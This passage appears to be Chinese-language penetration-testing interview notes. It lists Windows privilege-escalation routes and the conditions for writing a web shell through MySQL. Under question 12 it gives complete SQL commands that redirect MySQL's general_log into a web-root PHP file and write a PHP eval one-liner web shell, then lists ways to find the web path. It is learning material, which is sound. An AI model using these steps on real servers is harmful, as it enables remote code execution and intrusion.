 **Windows提权**

> 1. 内核提权（烂土豆）
> 2. windows系统配置错误提权
> 3. 本地dll配置文件提权
> 4. SqlServer提权
> 5. mysql提权
> 6. 。。。。。

### 11. mysql写shell需要哪些条件

> 1. root权限
> 2. 知道网站的路径而且拥有写权限，能够通过into outfile 和 into dumpfile
> 3. secure-file-priv=
> 4. gpc关闭

### 12. **phpmyadmin如果不能通过out file写shell，还有哪些方式。**

> 利用：日志备份获取shell
>
> general_log 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。可以尝试自定义日志文件，并向日志文件里面写入内容的话
>
> 

查看当前日志文件：

~~~mysql
 SHOW VARIABLES LIKE 'general%';
~~~


开启日志记录

~~~mysql
set global general_log = "ON";
~~~

更改日志文件路径

~~~mysql
set global general_log_file='C:\\xampp\\htdocs\\tieuhoc\\b.php'
~~~

往日志文件里写入一句话木马

~~~mysql
select '<?php @eval($_POST[cmd]);?>';
~~~

### 13. 如果不是默认路径，如何去获得写shell的路径

> 1. 数据库查询：show variales like %basedir%;
> 2. 查看phpinfo
> 3. 查看mysql安装情况
> 4. 报错信息

### 14. sql注入获取mysql本身路径的函数
